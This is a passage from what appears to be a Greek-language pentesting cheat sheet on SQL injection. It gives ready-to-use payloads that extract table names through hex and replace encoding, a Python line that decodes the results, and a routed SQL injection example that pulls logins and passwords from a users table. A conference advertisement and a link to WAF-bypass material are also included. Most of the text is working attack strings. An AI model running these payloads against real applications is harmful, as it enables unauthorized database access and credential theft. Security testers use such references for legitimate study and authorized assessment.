 Με αυτήν την τεχνική μπορείτε να εξάγετε πληροφορίες δημιουργώντας μόνο έναν λογαριασμό. Είναι σημαντικό να σημειωθεί ότι δεν χρειάζεται να σχολιάσετε τίποτα.

Χρησιμοποιώντας τις εντολές **hex2dec** και **substr**:
```sql
'+(select conv(hex(substr(table_name,1,6)),16,10) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'
```
Για να αποκτήσετε το κείμενο μπορείτε να χρησιμοποιήσετε:
```python
__import__('binascii').unhexlify(hex(215573607263)[2:])
```
Χρησιμοποιώντας **hex** και **replace** (και **substr**):
```sql
'+(select hex(replace(replace(replace(replace(replace(replace(table_name,"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'

'+(select hex(replace(replace(replace(replace(replace(replace(substr(table_name,1,7),"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'

#Full ascii uppercase and lowercase replace:
'+(select hex(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr(table_name,1,7),"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%"),"z","&"),"J","'"),"K","`"),"L","("),"M",")"),"N","@"),"O","$$"),"Z","&&")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'
```
<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​​​​​[**RootedCON**](https://www.rootedcon.com/) είναι το πιο σχετικό συνέδριο κυβερνοασφάλειας στην **Ισπανία** και ένα από τα πιο σημαντικά στην **Ευρώπη**. Με **αποστολή την προώθηση της τεχνικής γνώσης**, αυτό το συνέδριο είναι ένας ζωντανός συναντήσεων για επαγγελματίες τεχνολογίας και κυβερνοασφάλειας σε κάθε ειδικότητα.

{% embed url="https://www.rootedcon.com/" %}

## Routed SQL injection

Η Routed SQL injection είναι μια κατάσταση όπου η ενσωματωμένη ερώτηση δεν είναι αυτή που δίνει την έξοδο, αλλά η έξοδος της ενσωματωμένης ερώτησης πηγαίνει στην ερώτηση που δίνει την έξοδο. ([Από το έγγραφο](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Routed%20SQL%20Injection%20-%20Zenodermus%20Javanicus.txt))

Παράδειγμα:
```
#Hex of: -1' union select login,password from users-- a
-1' union select 0x2d312720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d2061 -- a
```
## WAF Παράκαμψη

[Αρχικές παρακάμψεις από εδώ](https://github.com/Ne3o1/PayLoadAllTheThings/blob/master/SQL%20injection/README.md#waf-bypass)
